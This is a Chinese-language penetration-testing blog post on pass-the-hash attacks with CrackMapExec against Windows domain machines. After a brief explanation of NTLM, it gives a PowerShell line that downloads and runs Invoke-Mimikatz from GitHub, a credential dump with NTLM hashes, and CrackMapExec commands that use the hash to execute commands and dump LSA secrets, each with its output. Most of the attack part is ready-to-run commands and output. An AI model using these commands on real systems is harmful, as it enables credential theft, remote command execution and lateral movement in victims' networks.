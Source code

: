 ```yaml
---
layout: post
title:  "使用CrackMapExec 进行 NTLM Hash传递攻击"
date:   2018-03-27
categories: 内网渗透
permalink: /archivers/2018-03-27/1
description: "本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击"
---
```


本文介绍一个工具 - CrackMapExec 进行 NTLM Hash传递攻击
<!--more-->
* 目录
{:toc}

## 0x01 前言

早期`SMB`协议在网络上传输明文口令。后来出现 `LAN Manager Challenge/Response `验证机制，简称`LM`，它是如此简单以至很容易就被破解。微软提出了WindowsNT挑战/响应验证机制，称之为NTLM。

从`Win2000`开始默认协议为`Kerboros`，下列情况会调用`NTLM`：

* 遗留客户端或服务器需要登录到网络或本地时。
* UNIX客户端需要与NT服务器通话时。
* 有正在使用验证`NTLM`的服务器信息块`（SMB）`后台程序的UNIX客户端时。
* 也即认证方或被认证方有仅支持NTLM情况时。

它以`挑战/响应（Challenge/Response）`顺序为基础。


* 1.客户端发送用户名和域名到服务器。
* 2.服务器转发到域控制器DC。
* 3.`DC`用客户端密码随机产生一个`8字节`得挑战`（Challenge）`，发送给服务器。
* 4.服务器将挑战转发给客户端。
* 5.客户端用密码经过`hash`及`DES`加密算法等操作得到一个加密结果响应`（Response）`发送给服务器。
* 6.服务器将响应转发给`DC`。
* 7.`DC`做同样操作验证客户端响应。
* 8.验证结束，返回结果通知服务器。


## 0x02 NTLM对渗透的作用

NTLM就好像是一个令牌，有了这个令牌就相当于获取了这个令牌所属者的权限。

最大的特点就是我们可以使用`SMB`执行`Command`。

## 0x03 CrackMapExec 介绍

CrackMapExec提供了域环境（活动目录）渗透测试中一站式便携工具，它具有列举登录用户、通过SMB(Server Message Block)网络文件共享协议爬虫列出SMB分享列表，执行类似于Psexec的攻击、使用powerShell脚本执行自动式Mimikatz/Shellcode/DLL注入到内存中，dump NTDS.dit密码。


WiKi:https://github.com/byt3bl33d3r/CrackMapExec/wiki

## 0x03 安装CrackMapExec

### Kali Linux

`apt-get install crackmapexec`

### Debian/Ubuntu

```
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
```

## 0x04 传递NTLM Hash执行命令

### 使用`Mimikatz`获取`NTLM Hash`

```

PS C:\Users\administrator\Documents>IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1')

PS C:\Users\administrator\Documents>Invoke-Mimikatz

```

获取NTLM Hash

```
****
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : PAYLOADS
         * LM       : 5609e3f4c7c56d5fa86fb73c70515bd7
         * NTLM     : dab7de8feeb5ecac65faf9fdc6cac3a9
         * SHA1     : 67302089bba4993f2f845e5992db0a21e64679fa
        tspkg :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        wdigest :
         * Username : Administrator
         * Domain   : PAYLOADS
         * Password : ****
        kerberos :
         * Username : Administrator
         * Domain   : PAYLOADS.ONLINE
         * Password : ****
        ssp :
        credman :

****

```

### 使用`CrackMapExec`执行命令

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Executed command 
SMB         192.168.3.5     445    LIYINGZHEA30B    payloads\administrator
```

### 使用`CrackMapExec`获取本地密码(Local Security Authority)LSA

```
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 --lsa
SMB         192.168.3.5     445    LIYINGZHEA30B    [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B) (domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9 (Pwn3d!)
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumping LSA secrets
SMB         192.168.3.5     445    LIYINGZHEA30B    WinHack:d3a4b1078aba22996575dd38056e3c99:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    Administrator:ff007a95ee46c0240e7f0c4b9b0c890a:PAYLOADS.ONLINE:PAYLOADS:::
SMB         192.168.3.5     445    LIYINGZHEA30B    PAYLOADS\LIYINGZHEA30B$:aad3b435b51404eeaad3b435b51404ee:eda8896ce9133d0bcaf0b6ece9cb0d45:::
SMB         192.168.3.5     445    LIYINGZHEA30B    DPAPI_SYSTEM:01000000faf06c0f43acbed98d62bd9829d053acb06a00f159e3419d193ff5be56c028fe8d7f0053161d9331
SMB         192.168.3.5     445    LIYINGZHEA30B    NL$KM:ac8c8a7ce1dd903d74a231a44fcf5df82db711df62e495da9b5f10c3a52dd618a8abce6975c69fea6a9ed69ff6511c62f9a750b5d696a69c3221dc0f1f849f3d
SMB         192.168.3.5     445    LIYINGZHEA30B    [+] Dumped 5 LSA secrets to /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.lsa and /root/.cme/logs/LIYINGZHEA30B_192.168.3.5_2018-03-27_155122.cached
```

### More ...

后续再加
